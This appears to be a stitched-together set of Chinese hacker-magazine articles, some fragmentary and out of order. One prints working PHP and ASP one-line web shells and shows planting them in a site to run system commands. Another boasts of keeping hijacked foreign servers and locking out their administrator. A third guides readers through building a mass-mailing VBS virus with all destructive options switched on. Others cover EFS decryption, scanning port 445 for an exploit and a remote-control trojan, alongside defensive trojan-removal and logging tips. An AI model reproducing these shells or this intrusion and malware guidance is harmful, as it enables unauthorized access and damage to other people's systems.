然后我进入后台，把 `<?php eval($_POST[cmd]);?>` 语句插入到网站的网页风格中，如图 1。


插入以后，保存，我们的服务端就插入到了首页中。那么我们现在在客户端这里，输入网址的首页、输入密码，就可以直接操纵我们的 webshell 了。我们来测试一下，选择左边多选框中的“环境变量”，然后点击“提交”按钮，如图 2。

怎么样，是不是看到了返回的信息啊，不过因为我们插入到首页的风格中，所以我们的返回信息就在网页的中间显示。下面再来试一下“系统命令*”功能看看，选择“系统命令*”，然后在下面的框中输入命令 `net user`（查看系统用户），嘿嘿，执行成功啦，看起来这个 webshell 的权限还挺大的嘛，如图 3。

好了，现在来试验一下 asp 木马又如何？要检测的这个网站没有 asp 文件，那我们就新建一个 asp 文件，内容就为 `<%execute(request("cmd"))%>`，再打开 lanker 客户端，把木马地址改为我们新建立的 asp webshell 的地址。然后输入密码，再次提交，OK，成功了。环境变量依然显示出来，再试验一下系统命令 `net user`，却出错了，如图 4。

| 类型 | 代码 |
|---|---|
| PHP后门服务端代码 | `<?php eval($_POST[cmd]);?>` |
| ASP后门服务端代码 | `<%execute(request("cmd"))%>` |

提醒：这里的默认密码是 cmd，要修改的，请各位自行修改服务端的代码。


呵呵，看来 php webshell 的权限大点哦，这里是不是也给了我们一些启示呢？如果使用 asp webshell 提权不成功的时候，我们可是随时插入 php 马来看看，说不定会峰回路转哟，嘿嘿。此 shell 还有很多功能，如图 5。


例如查看目录、修改文件、执行 SQL 语句等等，就由大家自己回去慢慢研究了，这里就不再多做介绍了，都是傻瓜化的操作而已，就不要占用宝贵的杂志页面了。有不懂的再到 X 档案论坛找我，一定给你们好好解答。（本文涉及的相关工具：ASP+PHP 两用 Shell.htm，光盘中有收录。）

## 心服包中的猫腻

风雪玉箫

最近，我从网上下载了一个 delphi 7 安装盘的镜像，于是便想做一个 delphi 7 的完整安装镜像：往里面加入中文包及注册机。这个我们学院的 FTP 上有，就从 FTP 上 download 了下来。但记得暑假前我们班有两个同学说 FTP 上的 delphi 安装包里面有木马，当时没在意。但由于这次我自己要做一个完整的镜像，可不想把木马也放到镜像里面去，因而就研究了下，结果还真让我在里面发现了猫腻。

现在，我就给大家说一下我的研究思路。我已经向 X 档案提供了这个压缩包，大家也可以结合我写的文章自己研究一下。整个过程是这样的：我先在本机上安装 delphi 7，因为要用到 delphi 7 的注册机，就运行了从学院 FTP 上下载下来的注册机。结果在安装的过程中发现 IT 民一直提醒我“svchost 在注册表开机自动运行处进行了修改”。与此同时，我注意到我安装的天网防火墙在系统栏中居然没有了它的图标，在程序中打开天网防火墙时，却发现找不到它的文件（图 1）。


（图 2）。看到这个图标，我马上想起是 delphi 7 注册机的图标，于是找到那个注册机的压缩包。我们可以看到压缩包中的文件名与 Windows 优化大师中 Microsoft 图标上的名字一样都带有 EPS 字样（图 3），并且解压缩之后图标也一样（图 4）。


但让我纳闷的是，解压缩之后居然只有一个文件，可是在压缩包中明明是有两个文件呀？而且，如果大家仔细看看图 3 的话，就会发现这两个文件名的差别就在于一个主文件名最后有一个空格，而另一个却没有。这样我就猜想：会不会其中有一个文件，它的文件属性设为了系统隐藏了呢？于是，我打开“我的电脑→文件夹选项→查看”，却发现在“隐藏文件和文件夹”中的“显示所有文件和文件夹”一项不见了（图 5）。不要紧，我们可以进入 DOS 命令行查看所有文件列表，显示结果证明：我的猜测是正确的（图 6）。


天网防火墙，让电脑一切恢复如初。为了更好地讲这个文件的运行机制，我又重新运行了那个注册机文件，结果在天网防火墙中发现：运行这个注册机后，系统目录下的 svchost.exe 会向因特网上的一台主机发送请求（图 10）。


那么，我们该如何删除它呢？首先，我们在任务管理器中找到它的进程（运行权限是 Administrator 的 svchost 就完了，当然你当前的用户可能是其它用户，因此具体来讲，就是以当前用户登录计算机权限运行的 svchost），却发现根本无法结束它。于是，我先利用 Windows 优化大师把它的开机自启动键值删除，然后重启，却意外蓝屏。再次重新启动后出现开机启动选择菜单，说是出现故障。我选择“最后一次的正确配置”，成功进入系统后用 DOS 命令行方式进入“c:\windows”系统目录，删除 svchost.exe 文件（图 7）。


但接着不幸的现象发生了，这时我发现所有的 EXE 文件都无法运行了（图 8）。


这可难不倒我！查看一下 exe 文件关联有没有被改动（我的这个 cmd 窗口是先前删除 svchost.exe 之前的，如果你此时没有先前的 cmd 窗口，可以用图 8 中的提示找到相关程序打开一个），输入 `assoc.exe`，结果显示正常；再输入 `ftype exefile`，于是便让我找到了问题所在（图 9）。


呵呵，运行 EXE 文件时会先运行“C:\windows\svchost.exe”这个文件，而这个文件刚才正好已经被我删除了，所以就会出现如图 8 所示的提示框。看来就是它了。用命令把这个地方改回来，输入 `ftype exefile="%1" %*`，再运行 EXE 文件，一切正常。到这里，我就把这个程序从我的电脑里面给揪出去了。同时，我又重新安装天网防火墙，让电脑一切恢复如初。

并且，我还发现江民杀毒软件实时监控功能中的“打开方案设定的监视”一项无法勾选（图 11）。通过以上所有的分析过程，我总结出这个程序的运行机制：


- 1. 从程序中释放一个名为 svchost.exe 的文件到系统目录下，并将其文件属性设为系统隐藏。
- 2. 在注册表的开机自动启动 AutoRun 处进行修改，以达到开机自动运行的目的。
- 3. 修改文件关联，致使电脑凡是运行所有的 EXE 文件之前先去运行释放的这个文件，以达到保护自己的目的。
- 4. 修改注册表，让“文件夹选项”中的“显示所有文件和文件夹”隐藏，让你在 Windows 下看不到它，以增加它的隐蔽性。
- 5. 卸载天网防火墙（如果你的电脑中有的话，其它防火墙因为没试，所以不确定）。

### 另类宴会！周日中毒型主机地毯式作战

#### 一、显摆了

我是一个“小小”黑客（请允许我自夸一下，不要扔砖啊），每天必定要到自己的占领地（就是“肉鸡”）小转一番，看到它们安好无恙，我也就放心了。

坐在电脑前，熟练地打开电脑，输入密码，进入桌面，双击熟悉的“远程桌面连接”图标，蓝色的“卫星”界面出现了，键入 IP 地址（IP 地址当然是瞎编的了）：214.218.*.*（如图1），键击“连接”，“肉鸡”那亲切的 2000 SERVER 桌面出现在我的眼前。


这台主机是 M 国某游戏网站的 WEB 和 DNS 服务器，正常的 IBM 服务器，CPU 是双个的，P4 3.0，内存 1024M 的，性能稳定、强劲，网络速度也快，尤其值得夸赞的是它的管理员，每个月能来那么一次吧，这当然是我经过长时间的“侦查控守”后发现的小规律。自从收获了这台机器之后，它就成了我对外入侵的一个战略基地。

言归正传，先来看看是不是有其他的用户登录在上面。当然可以从命令行键入命令：`query user`，来查询当前登录用户，不过本人更喜欢通过“管理工具”的“终端服务管理器”来进行察看，它的界面友好、直观，有一目了然之功效，仿“黑客”于无形，如图2。


从图2上可以直接看到头像呈绿色的在线用户，头像呈灰色的下线而没有注销此次登录的用户，同时可以查看一下这些用户的“会话”和“进程”信息。当然，你也可以查看某个登录用户的详细信息，如图3。


从中你可以了解到该用户的登录用户名、主机名、该机 IP 地址（如果是内网用户，只能看到内网 IP 了，如图3所示就是这样）、还有该用户的显示分辨率等资料。对于那些忘了注销登录的“闯入者”，我只好代替管理员行使权利了：选中该用户名，右键单击“复位”“确定”即可结束他的这次登录，这必须要求你所使用的登录用户具有 administrator 权限！随后进入“管理工具”→“计算机管理”→“本地用户和组”→“用户”，将这个擅自闯入者的用户名找出来彻底删除。

顺便告诉你：在命令行里看不到的隐藏用户名在这里也会被看得一清二楚，当然对这种用户名更应该毫不客气——删除！不要忘了回头要替它清理一下足迹啊！既然讲到了“计算机管理”就再啰嗦几句，如图4，对于“用户”组里的用户名 Guest、IUSER（匿名访问 Internet 信息服务的内置账号）、IWAM（进程应用程序之外匿名访问 Internet Information 服务的内置账号）、TsInternetUser（这个用户账户被终端服务所使用）一定不要掉以轻心。


维护“肉鸡”就是这样，“鸡主”自己动手总比被管理员发现好吧！对待“肉鸡”：爱它就要去维护它，它好我也爽（好像广告词啊）。

#### 二、中“标”了

今天登录成功进入界面之后，有种不祥的感觉，照例进入“管理工具”的“终端服务器”，单击、再单击，又单击，居然不好使；赶快进入“事件查看器”查看，点击同样打不开……这下可为难这无辜的“管理员”，只好一步一步查找原因。先回到自己的机器上，按图标属性发现“目标”关联在 `%SystemRoot%\system32` 下面，再回到“肉鸡”上面，打开目录，果然发现里面的“管理工具”关联程序文件被删除了。明白了症结就好解决了，接下来就是在管理员发现之前去弥补它……工作过程是繁琐辛苦的。一次设置完成后，进入“终端服务器管理器”一看，头像变灰色，这小子走人了却没注销登录……


图5

#### 三、想招了

回头再仔细想想，假如该“入侵者”注销了这次登录，我不是什么蛛丝马迹都抓不着了么？那也太冤了吧。得想点办法加强对“肉鸡”的监控。倒是可以将“本地安全策略”里的“审核策略”打开，审计“账户登录”的成功和失败事件……不过这样的话，真正的管理员当然也可以看了，并且只能看到登录用户的 IP，记录并不完整。

看来还是不能完全依赖微软软件呀，我们自己来吧，写个程序，就搞定。不会 C、VB、Delphi？那也简单，批处理就可以。新建一个 `.bat` 文件，命名 `tsLog.bat`，用于记录入侵者登录时间、主机 IP，批处理内容如下：

```bat
@echo off
time /t >>tslog.log
netstat -n -p tcp | find ":3389">>tsLog.log
start Explorer
```

第二行记录登录时间；第三行通过 `netstat` 与 `find` 记录 3389 端口连接的 IP；最后一行 `start Explorer` 用于让用户进入桌面。接着在“计算机管理”→“本地用户和组”→“用户”中，打开目标用户属性，在“环境”里选择“登录时启动下列程序”，程序名填 `tsLog.bat`，位置填批处理所在路径（文中示例为“我的文档”）。


图6

一切设置完毕后，重新登录验证，可看到目录下生成 `tslog.log` 日志文件，其记录格式如下（IP 为随便编的示例）：

```text
22:40
TCP  192.168.12.28:3389   192.168.10.123:4903   ESTABLISHED

22:54
TCP  192.168.12.28:3389   192.168.12.29:1039   ESTABLISHED
```

对于没摸清 3389“肉鸡”管理员规律的用户来说，这是很好的监控方法，等于装了“私人入侵检测系统”。不过，是否还能更主动一点、胆子再大一点呢？

#### 四、胆大了

对，既然“入侵者”大多都是从 Administrator 这个用户名下手，这个用户名也最容易被用来猜密码，那么索性在管理员不登录的时候我就把 Administrator 登录到服务器的权利禁掉。啊？胆子太大了点吧？

操作如下：还是“计算机管理”→“用户”，选中要禁止的用户 Administrator，右键“属性”，“终端服务配置文件”，如图7。

要禁掉它，只需把图示最下面“允许登录到终端服务”复选框的选择去掉即可。而在 Win2003 Server 中正好与此相反，复选项的说明为：拒绝这个用户登录到任何服务器，要注意与 2000 Server 相区别啊，如图8。

那么设定好之后再使用 Administrator 用户名登录的效果是什么呢？将会出现一个登录消息框提示你：你的交互登录权限已经被停用，请与系统管理员联系。等到管理员登录那几天再把复选框选上便可以了。


#### 五、有感了

洋洋洒洒写了这么多，最后连自己都有点搞不清自己到底是“黑客入侵者”呢还是“系统管理员”呢？有种“敌中有我，我中有敌”的感觉。确实，拥有一个好的“肉鸡”不容易，维护好一个“肉鸡”更不容易，后者更需要你身兼两职，既需要你有各种“黑”的知识来预测别人怎么攻击你，同时又需要你有各种“反黑”的知识预测怎样防范攻击。遂美其名曰“黑客管理员”！

（本文涉及的相关工具：IP 数据库查询软件 showIP，光盘中有收录。）

#### 一、前言

翻开网络上的入侵资料看吧，大多数的入侵都是在 cmd 下完成的，比较典型的有溢出得到一个 system 权限的 cmdshell，然后种植一个 Tcmd 之类绑定了 cmd.exe 的后门。也有利用 web 程序的漏洞得到一个 webshell，然后利用低权限的 cmdshell 来提升权限，最后再种植后门……各种各样的攻击都说明入侵和 cmd.exe 是相关的，因为一个 cmd.exe 就是一个用户与系统交互的接口，是入侵者进入系统的首要目标。当然，我们不能在这里坐以待毙，如何防止别人通过溢出得到你的 cmdshell，如何知道别人已经进入系统并且获得 cmdshell，如何在人家登录到我们机器的时候抓住入侵者呢？现在就让我们打造一个 cmd 下的终极防线吧。


## 二、原理

网络上谈得比较多的一种防范的方法是将 cmd.exe 设置权限，这样的确可以起到很大的作用，但是权限难以锁定，并且如果别人自己上传 cmd.exe 的话还是可以突破的，然后用 nc 绑定 cmd.exe 到一个端口还是可以得到 cmdshell。今天我给大家介绍一种新的方法，不用设置 cmd 的权限哦！首先说说原理，还是打开你的 cmd 命令窗口，运行命令 `cmd /?`，看看得到了什么吧！如图1。


注意以下内容：

如果 /D 未在命令行上被指定，当 CMD.EXE 开始时，它会寻找以下 REG_SZ/REG_EXPAND_SZ 注册表变量。如果其中一个或两个都存在，这两个变量会先被执行。

HKEY_LOCAL_MACHINE\Software\Microsoft\Command Processor\AutoRun 和/或 HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun。

也就是说，如果存在 HKEY_LOCAL_MACHINE\Software\Microsoft\Command Processor\AutoRun 和 HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun 这两个键值，并且你不是用 `cmd.exe /D` 启动 cmd 进程的话，会在启动 cmd.exe 之前先去执行这两个键值指定的程序。嘿嘿，想到什么了，既然可以先于 cmd.exe 之前执行自己的程序或者脚本，我们就完全可以控制 cmd.exe 的动作了。

## 三、实战

我们找到了可以利用的东西，现在看看如何利用 cmd.exe 的这个特性来做些什么吧！关键是编辑 HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun 的内容（没有的话你可以新建一个），为你定义的一个脚本的位置。为了方便，我们可以使用批处理。我的系统是 2000 Adv Server。譬如你可以在 `c:\winnt\system32` 下写一个 `cmd.bat` 的批处理文件，内容为你希望在启动 cmd.exe 进程之前要运行的命令，然后编辑 `HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun` 的内容为 `c:\winnt\system32\cmd.bat`，如图2。


假设你的电脑并不是经常及时打上补丁，你就可以编辑 `system32` 下 `cmd.bat` 的内容为 `exit`，这样就抵御黑客的远程溢出攻击了……这里为了给大家示范我指定的是 `pause` 命令，如图3。


光是这样的防范还没有什么意思，我们最好能够抓住入侵者，那我们就好好地写这个 `cmd.bat` 脚本吧！要抓住入侵者或者想知道入侵事件发生的时间，我们可以定义 `cmd.bat` 的内容如下：

```bat
@echo off
@netstat -an >> c:\winnt\system32\net.log
@date /t >> c:\winnt\system32\date.log
@time /t >> c:\winnt\system32\time.log
@exit
```

这样当有人溢出的时候他的 IP 就在日志里啦！你完全可以根据自己的情况补充这个脚本的内容，如查看进程、查看端口关联等等，因为不是系统自带的程序我就不给大家展示了！

是不是只能做这么多呢？看到以前的杂志有人写用 telnet 愚弄入侵者，有了今天的方法可不只能用 telnet 愚弄入侵者了！所有绑定 cmd.exe 的程序都可以被我们愚弄。譬如我们在 `cmd.bat` 里写上：

```bat
@echo off
@netstat -an >> c:\winnt\system32\net.log
@date /t >> c:\winnt\system32\date.log
@time /t >> c:\winnt\system32\time.log
@type c:\winnt\system32\cmd.txt
@pause
@exit
```

这样我们就可以对入侵者喊话了，骂些什么呢？骂人的话就不要喊了……其实从任何的 cmd 后门上登录时都是这样的效果，我的 Tcmd 就很郁闷，呵呵！这些在 webshell 里也是很有效的。


文章没有什么高深的东西，其实就是 cmd 的一个属性，与设置权限配合使用，用得好的话效果还是很不错的。有人要问了，这样设置以后我们自己启动 cmd 怎么办，很好说，就是运行的时候用 `cmd /D` 参数启动就可以了。有问题或者建议欢迎到论坛讨论。

> （本文涉及的相关代码：cmd.bat，cmd.reg，光盘中有收录。）

### 手工彻底清除“任我行”

阿铁

因为家里要安装宽带所以我准备给电脑安装 WIN2K SERVER 系统……在对系统进行优化的时候发现服务中有“Rwx”这个服务，明显是中了“任我行”。刚装的系统却中木马，又没有上网怎么可能，估计是装的某个软件中含有木马，不管了先清除再说。


- 第一步：将这个服务停止，双击“Rwx”这个服务，弹出它的属性框，在“启动状态”中点“停止”按钮，然后在“启动类型”中选择“已禁用”，最后点“确定”退出，确保它不会随系统的启动而启动。


- 第二步：注册表中肯定有它的身影，打开注册表，在“编辑”→“查找”中输入“Rwx”回车，开始查找，不一会儿就找到了（图3）。


删除时提示无法删除（图4），继续查找又找到一个（图5），注意右边窗口的“ImagePath”值，这个就是“任我行”木马程序所在处。先把路径记下来，然后将该项删除，继续查找又发现一处（图6），结果也是无法删除。


- 第三步：应该轮到元凶了，按刚才记下的路径找到木马程序“svhosts”，和系统程序“svchost”很相近（如图7）。注意，删除时若提示无法删除，表示木马程序已经运行了，打开任务管理器将木马进程结束掉（图8），然后将木马程序删除。


其实到这里木马程序已经清除了，不过注册表中还有所残留。最后一步：除去注册表中删不掉的项，以管理员身份登录系统，在“开始”→“运行”中输入“regedt32”回车，打开具有更高权限的注册表编辑器（图9），找到删不掉的项，在菜单中选择“安全性”→“权限”，在对话框中给“完全控制”的“允许”项预勾选中，点“确定”退出，即可删除。


清除工作到此结束。反过来想如果木马程序能和“任我行”一样把注册表中相关项的“完全控制”权限去掉，就会很难清除。当然木马程序也要够强才行，比如将自己挂靠在 DLL 中，或依附系统驱动程序中，除非格式化，否则系统运行就会自动运行木马程序，安全模式下也不例外。希望能有高手“为人民服务”一下。

## 傻瓜黑客

### 菜鸟也来玩病毒


怎么样？看了标题是不是有些不可思议！菜鸟也来玩病毒？这是真的吗？对！没错，这是真的……看完这篇文章后，即使你根本就不懂编程也能制造出属于自己的病毒。

既然是“造”病毒，当然要用到工具了。主角登场——“病毒制造机”V1.0，它通过用户输入的各项数据来产生符合要求的 VBS 病毒文件。


第一步双击运行病毒制造器（图1），阅读说明后点击“下一步”进入第二步开始配置病毒（图2）。建议将若干复制相关选项勾选，并设置病毒副本文件名。

置好后，点击“下一步”来到第三步，如图3。


“禁止功能选项”是程序提供给大家的选项，可根据需要来选，不过文中建议全选，如图4。


再点击“下一步”来到第四步“病毒提示对话框”，勾选“设置开机提示对话框”后可填写提示框标题和内容。

> ### VBS 病毒小知识
> VBS 病毒使用 VBScript 编写，利用 Windows 脚本环境及对象组件进行文件、注册表等操作，传播和破坏能力较强，常见后缀为 `.vbs`。


我们点击下一步进入“病毒传播选项”，勾选“通过电子邮件传播”，并设置自动向地址簿发送前的提示数值（示例为 5000），继续进入“IE 修改选项”。


为了发挥病毒能力和破坏力，文中建议将第六步中的选项全部勾选，如图8；在勾选“默认主页”时会要求输入地址，如图9。


你可以根据个人需要填写！进入最后一步将病毒保存，选择好保存路径后点“开始制造”即可诞生属于自己的病毒！

好了，到此一个属于“咱们菜鸟”的病毒就诞生了！怎么用不用我教吧！这里注意：在病毒制造出来后程序会自动给出解毒文件 `reset.vbs`，如图10。

有什么问题，到论坛上留言给我啊！

（本文涉及到的软件病毒制造器，光盘有收录。）


## 菜鸟获取微软的 EFS 加密

从 Windows 2000 开始，Windows 引入了加密文件系统 EFS（即核心加密文件系统），它具有加密和解密完全自动、加密技术强健等优点。据微软说在没有备份密钥的情况下，要对 EFS 解密几乎是不可能的，事实真的如此吗？你看完下文就知道了。

#### 一、EFS 的安全性和可靠性

在 EFS 加密体系中，数据是靠 FEK（文件加密钥匙）加密，而 FEK 又会跟用户的公钥一起加密保存。解密时顺序相反，首先用私钥解密出 FEK，然后用 FEK 解密，因此用户的密钥在 EFS 加密中起主要作用。

在 Windows（2000 以上版本）中，每个用户都有一个 SID（安全标识符）以证明自己的身份，并且具有唯一性，理论上讲没有 SID 号相同的用户。由于密钥是操作系统在第一次加密数据时根据 SID 号生成的，所以保证了 EFS 加密的安全性和可靠性；所以从理论上讲 EFS 加密是无人能破解的。

#### 二、EFS 加密和解密步骤

在需加密的文件或文件夹上，点右键选“属性”，在“常规”选项卡上点“高级”，在弹出的窗口中选中“加密内容以便保护数据”，点确定即可。解密时取消“加密内容以便保护数据”选项前的钩即可。

另外，也可在命令提示符下用 `cipher` 命令对文件或文件夹加密，如加密 `c:\My Documents`，可输入以下命令：`cipher /e c:\My Documents`。至于其它的用法可用 `cipher /?` 进行查询。

#### 三、EFS 加密的破解

EFS 加密真的像微软说的那样“无人能破解”吗？世界无论什么事儿都是相对，没有绝对的。据说可以破解 EFS 加密的软件“Advanced EFS Data Recovery”（为方便说明以下简称 AEFSDR）就可以很容易地将 EFS 加密的文件破解。难道 AEFSDR 真的可以破解微软的 EFS 加密文件吗？下面我们看看是如何破解的以及破解的效果如何。

先说明一下，为检验 AEFSDR 的解密效果，我是在微软较安全的操作系统 Windows 2003 进行的实验。首先在 Windows 2003 中建立一用户 Isq，在此用户中新建一名为“myfile”的文件夹，在此文件夹中放入文本文档、rar 文件、exe 文件和图片文件，然后用 EFS 加密 myfile 文件夹。注销 Isq 用户后，用管理员账户 Administrator 登录后，打开加密文件夹 myfile 内的文件时，所有文件都拒绝访问无法打开。

运行 AEFSDR 主程序，在“EFS related files”选项下点“Scan for keys”按钮出现一新窗口，如图1。在新出现的窗口中选择操作系统所在磁盘进行扫描。


扫描操作系统所在磁盘的密钥，经过几分钟的扫描很快找到了可用的密钥，如图2。图2中类型“Type”为“Private Key”的为可用的密钥。

如果只想查看已加密的文件，点击“File tree”选项，就可以浏览已加密的文件了，显示为绿色的为可恢复的加密文件。如需要恢复加密的文件，打开“Encrypted file”选项，点击右边的“Scan for encrypted files”按钮，打开一新窗口，在新窗口中选加密文件所在的磁盘，点击“Start Scan”按钮开始扫描加密的文件。一会儿扫描完毕就可看到加密的文件，将加密的文件勾选上后，最后点击“Decrypt”按钮将加密的文件恢复到指定位置，如图3。


图3

#### 四、需要说明的几个问题

- 1. 用 AEFSDR 破解 EFS 加密文件的前提是磁盘中必须存在密钥。由于密钥保存在系统盘中，所以无论你加密的文件放在哪个盘中，系统盘必须存在；如果你已将系统盘格式化，无论用什么软件也无法破解 EFS 加密的文件。
- 2. 如果你的 Windows 已经无法进入，而你又没有备份证书，此时可重装系统但必须将系统装到另一分区，一定不要覆盖原系统。然后到新系统中安装 AEFSDR，用 AEFSDR 在原系统所在分区中扫描密钥后，用上面的方法进行解密即可恢复你加密的文件。另外也可将硬盘作为从盘挂到其他运行 Windows 的电脑中解密。
- 3. 高版本 Windows 兼容低版本 Windows 解密。就是说用 Windows XP 的 EFS 加密文件可在 Windows 2003 中用 AEFSDR 解密，而不能在 Windows 2000 中用 AEFSDR 解密。
- 4. 用 AEFSDR 解密文件成功率几乎是 100%，有时解密后的文件扩展名损坏或丢失，但文件是正常的，此时将扩展名改为原来的扩展名即可。

另外需要说明的是，AEFSDR 的最新版本是 3.0，但网上的 AEFSDR 3.0 破解版虽然显示已注册（没注册版本无法保存解密后的文件），实际上不仅不能解密，甚至连密钥也无法扫描到，因此不要使用。最后在国外一网站上终于找到了 AEFSDR 3.0 的注册码。


“控制面板”里有很多关于系统设置的程序……我们要解除网吧里的一些烦人的限制，很多时候也得从“控制面板”下手，如图1。


图1

大家可以看到一些常用的系统设置程序不见了，比如我们在解除网吧限制时修改 IE 属性的“Internet 选项”就已经“隐身”了。关于隐藏“控制面板”及里面的选项在此我就不再多说了。

朋友的电子阅览室刚刚开张（也是“电子浏览室”，其实不过是挂羊头卖狗肉，和一般的网吧没什么区别），说是要找法看一下电子阅览室里客户机的安全性。简单看了一下系统设置，一切都设置得比较严格甚至有些变态，不过我们想，网管有时需要对客户机进行一些修改，或者下载文件、安装游戏、外挂什么的怎么办？得到的回答是把限制一步一步解除再进行下去……在朋友的再三恳求下我硬着头皮试图找一个既能限制用户又可以方便自己维护计算机的方法。

#### 方法一

当我们把限制做好后，便准备隐藏“控制面板”里的东西了。进入“控制面板”，选中里面全部的项目，单击右键，如图2，选择“创建快捷方式(S)”，紧接着弹出一个对话框，如图3。


图2

选择“是”，然后我们就可以在桌面上找到“控制面板”里面全部项目的快捷方式了。现在我们再打开一个 WORD 文档，取名为“控制面板”，把桌面上的全部“控制面板”里项目的快捷方式复制下来，粘贴在这个 WORD 文档中，如图4。


图3


图4

现在我们再双击它试试？是不是打开“Adobe Gamma”这个程序了？

OK，我们保存这个 WORD 文档并加上密码。然后你可以隐藏“我的电脑”“控制面板”以及“控制面板”里的所有项目，把这个 WORD 文档放在不引人注目的地方。当你想要运行“控制面板”的某个程序时，直接打开这个 WORD 文档就可以了，是不是很方便呢？

以上方法在 WIN98 下测试通过，但是当我以同样的方法在自己的 Windows XP + Office 2003 下测试时出现麻烦了。我还是按照上面说的一步步进行着，只是到最后当我双击 WORD 里的项目时，弹出一个对话框提示是否打开这个“对象”，如图5。


图5

选择“是”后又弹出文件下载对话框，如图6。


图6

大家看“保存”为灰色了，我点击“打开”，却提示 WINDOWS 无法打开此文件，如图7。


图7

看来 WORD 不支持快捷方式，这次我想到了第二种办法——创建对象。在 WORD 工具栏上依次打开“插入→对象”，在对象类型中我们选择“包”，如图8。


图8

按着弹出如图9所示的对话框。


图9

为了好看我们给包插上图标，单击“插入图标”，然后随便选择一个图标就可以了。再在这个对话框的工具栏中依次打开“编辑→命令行”，在填入命令处填写 `d:\windows\system32\inetcpl.cpl`，然后“确定”，关闭图8对话框，选择“是”。

这里注意下，我的 OS：WINXP 是装在 D 盘的，你需要视自己情况而定；`d:\windows\system32\inetcpl.cpl` 不能写成 `%windir%\system32\inetcpl.cpl`，否则系统提示找不到文件并提示执行命令失败，如图10。


图10

一切设置好后，打开我们建立好的包，依然会弹出图4和图5的窗口，不过我们点下图5中的“打开”后，是不是相应项目的属性就豁然眼前了呢？

需要注意的是，`d:\windows\system32\inetcpl.cpl` 中 `inetcpl.cpl` 是可以改的。其实“控制面板”里所有的项目所调用的程序扩展名都是 `.cpl`，存放于 system32 文件夹下，大家可以自己在这个文件夹下找到相应项目对应调用的程序，再做修改。


图10

图11

然后我用最新的卡巴杀了下，测试通过了，后面还有一些修改特征码的工具、查找网站的工具，就留给大家自己去体验了，在此就不再多做介绍了。

哦，差点忘记了，最后来看一下这可爱的界面，还可以当作一个浏览器来使用呢，并且放歌词、域名转换、查在线资源、查看网站排名都可以呢！是不是让它的小体积、大功能给深深吸引呢？那就赶快来使用吧，居家旅行的必备黑客工具箱哟！

（本文涉及的相关工具、作者字体信息略）

## 扫描搜索局域网

### LAN Explorer

LAN Explorer 是一款非常好用的搜索软件，通常我们用它来搜索局域网中的共享资源，但是通过一段时间的使用，我发现，如果把它利用得好的话，也可以成为一个非常好用的扫描软件。下面我们就看看怎样使用它吧！

首先打开“LAN Explorer”，弹出如图1所示的窗口，大家可以看到上面有六个大按钮，分别是“搜索设置”“IP 地址查询”“Nbtstat”“端口扫描”“Ping”“发送消息”，其中对我们最有用的就是前面五个了。


- 1. “搜索设置”：这是本软件的老本行了，搜索局域网上的共享资源。配置较简单（如图2）。
- 2. 可在“用户名和密码”页修改默认账号信息；访问需登录的 Win2k/WinNT 机器时默认用户名为 `guest`，密码为空。
- 3. 搜索时可选择按网上邻居搜索或按 IP 地址段搜索。


- 2. “IP 地址查询”：可以由主机名或域名（如 `www.sina.com.cn`）查询 IP 地址，或由 IP 地址查询主机名/域名。
- 3. “Nbtstat”：如图3，我们很轻易地就能得知所要搜索的 IP 段的 IP 地址与用户对应情况，对局域网内用户识别很有帮助。


- 4. “TCP 端口扫描”：这是我最常用的工具了，利用它我们可以扫描当前局域网内开放代理或目标端口的机器。

扫描当前我们局域网内开代理的机器。当然，更可以用做一个非常快的端口扫描工具，如前一段很流行的 MS05039 溢出漏洞，我们只需把端口填入 445，之后扫一下，是不是很有收获啊？如图4。我再强调一下，速度很快哦！


- 5. “Ping”：这是我们常用的指令。Ping 可用来判断网络中某一 IP 地址的机器是否存在（或开机），几乎所有支持 TCP/IP 的系统都支持 Ping。对于 Linux/Unix 的机器，Nbtstat 不起作用，可以使用 Ping。另外 Ping 不光可用在局域网中，亦可用在 Internet 中。


> 备注：
> 1. 能将扫描和搜索的结果保存成文本文件或 Excel 电子表格文件（如图6）。
> 2. 为局域网机器间拷贝文件时，提供文件和目录的断点续传功能。
> 3. 采用类似资源管理器的界面，操作十分方便。
> 4. 绿色软件，开放源代码。

好了，主要功能就介绍到这里了，是不是有点心动了，那就赶快把它加到你的黑客工具包里吧。（本文涉及的相关工具：LAN Explorer 1.5，光盘中有收录。）


### net user 也疯狂

王艺翔


菜鸟们对于 `net user` 这个命令应该都很熟悉吧？这个命令也是我们在入侵过程中经常要用到的命令之一。我们可以通过 `net user` 查看本地的所有用户列表。

但是有时我们出于安全因素考虑，并不希望对方能够通过 `net user` 命令查看到我们系统内的用户账户列表，那么应该怎么解决呢？没错！我们就是要禁止 `net user` 命令，如何禁止呢？

首先我们可以在命令行下输入 `net user` 命令来查看是否可以正常显示本地账号，如图1。我们打开如图2所示的注册表位置，然后右击“names”，选择“新建项”，项名为“黑客”，项名右边默认键值千万不能保持默认，大家随便写个数值即可，我们也填写“黑客”，如图3。此时我们再在命令行下输入 `net user` 看看，


如图4，是不是已经无法显示出账号了啊？！其实原理我认为很简单，就是人为构造了一个错误机制，让 `net user` 命令读取注册表错误，这样就不能正常显示账号了。如果我们只是建立了一个名为“黑客”的项，并保持其默认值不变的话，那么通过 `net user` 命令还是可以读取账号的，焦点就是要将其默认值改为其他的值。

当然了，这只是我的猜想，可能讲得并不十分正确。我再补充一点：使用这种方法有个缺点，就是通过“管理”，我们可以照常看见用户列表，而且此方法虽然不可以查看用户列表，但是可以创建新用户。

那如何才能让入侵者不能通过 `net user` 建立账号呢？答案是有的。我们打开注册表到 `HKEY_LOCAL_MACHINE\SAM\SAM`，在右边我们点 C 键值删去即可（如果在自己机器上使用，最好保留个备份）。这样做的最终结果是我们既不可以通过 `net user` 查看用户，也不可以通过 `net user` 建立用户，而且在“管理”里面也看不见用户列表信息，如图5、图6。此方法完全不影响用户的正常登录。


## 牧马记

### 国产木马新秀——“流萤”使用详解

去年，有一款名为“QQ远控精灵”的小木马在网民中吸引了广大网络爱好者的眼球，并不是该木马有多么强大的功能，而是因为它完全依靠人们通过即时通讯软件QQ来进行远程控制而知名。大家都知道，我们平时所使用的木马或远程控制软件基本都采用传统的C/S（客户端/服务端）模式，当木马的客户端和服务端成功连接以后，通过本地的客户端程序对远端的服务端进行远程控制。而“QQ远控精灵”放弃了传统的客户端程序，而是采用最常见的聊天工具QQ来发送一些特殊的控制语句来进行远程控制……

